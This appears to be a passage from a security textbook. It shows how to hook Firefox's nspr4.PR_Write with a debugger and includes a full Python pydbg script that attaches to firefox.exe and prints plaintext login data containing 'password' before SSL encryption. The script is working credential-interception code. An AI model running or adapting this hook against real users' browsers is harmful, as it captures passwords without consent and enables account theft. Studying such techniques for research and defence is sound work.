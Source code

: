 
First let’s verify that we can actually see the data we are interested in. Open
the Firefox web browser, and navigate to one of my favorite sites, https://www
.openrce.org/. Once you have accepted the site’s SSL certificate and the page
has loaded, attach Immunity Debugger to the firefox.exe process and set a break-
point on nspr4.PR_Write. In the top-right corner of the OpenRCE website is a
login form; set a username to test and a password to test and click the
Login button. The breakpoint you set should be hit almost immediately;
keep pressing F9 and you’ll continually see the breakpoint being hit.
Eventually, you will see a string pointer on the stack that dereferences to
something like this:
[ESP + 8] => ASCII "username=test&password=test&remember_me=on"


firefox_hook.py
```python:n
from pydbg import *
from pydbg.defines import *

import utils
import sys

dbg = pydbg()
found_firefox = False

# let's set a global pattern that we can make the hook search for
pattern = "password"

# this is our entry hook callback function the argument we are interested in is args[1]
def ssl_sniff(dbg,args):
    # now we read out the memory pointed to by the second argument
    # it is stored as an ASCII string, so we'll loop on a read until we reach a NULL byte
    buffer = ""
    offset = 0
    while 1:
        byte = dbg.read_process_memory(args[1]+offset,1)
        if byte != "\x00":
            buffer += byte
            offset += 1
            continue
        else:
            break

    if pattern in buffer:
        print "Pre-Encrypted: %s" % buffer
    return DBG_CONTINUE

# Quick and dirty process enumeration to find firefox.exe
for (pid,name) in dbg.enumerate_processes():
    if name.lower() == "firefox.exe":
        found_firefox = True
        hooks = utils.hook_container()

        dbg.attach(pid)
        print "[*] Attaching to firefox.exe with PID: %d" % pid

        # Resolve the function address
        hook_address = dbg.func_resolve_debuggee("nspr4.dll","PR_Write")

        if hook_address:
            # Add the hook to the container. We aren't interested in using an exit callback, so we set it to None.
            hooks.add(dbg,hook_address,2,ssl_sniff,None)
            print "[*] nspr4.PR_Write hooked at: 0x%08x" % hook_address
            break
        else:
            print "[*] Error: Couldn't resolve hook address."
            sys.exit(-1)
if found_firefox:
    print "[*] Hooks set, continuing process."
    dbg.run()
else:
    print "[*] Error: Couldn't find the firefox.exe process."
    sys.exit(-1)
```
